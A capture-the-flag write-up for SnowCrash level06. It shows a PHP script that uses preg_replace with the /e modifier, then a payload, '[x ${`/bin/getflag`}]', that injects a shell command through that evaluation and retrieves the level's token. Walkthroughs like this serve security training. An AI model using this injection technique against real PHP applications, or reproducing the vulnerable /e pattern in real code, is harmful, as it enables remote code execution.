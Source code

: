 # Snow-crash - level06

## Find something
```bash
level06@SnowCrash:~$ ls
level06  level06.php
```
* On exec of level06, we has an error
```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
* The *x* function seems to be the main process to exploit, 
```bash
level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' > /tmp/flag.txt
level06@SnowCrash:~$ ./level06 /tmp/flag.txt
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```